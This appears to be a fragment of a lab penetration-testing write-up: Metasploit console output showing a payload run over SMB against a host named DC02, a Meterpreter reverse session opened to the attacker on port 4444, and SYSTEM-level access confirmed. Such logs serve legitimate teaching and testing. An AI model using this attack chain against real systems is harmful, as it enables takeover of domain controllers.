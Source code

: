 ```
[*] 192.168.100.104:445 - Executing the payload...
[+] 192.168.100.104:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.100.104
[*] Meterpreter session 1 opened (192.168.100.1:4444 -> 192.168.100.104:64442) at 2023-01-12 16:50:55 +0100

meterpreter > sysinfo
Computer        : DC02
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MYLAB
Logged On Users : 8
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
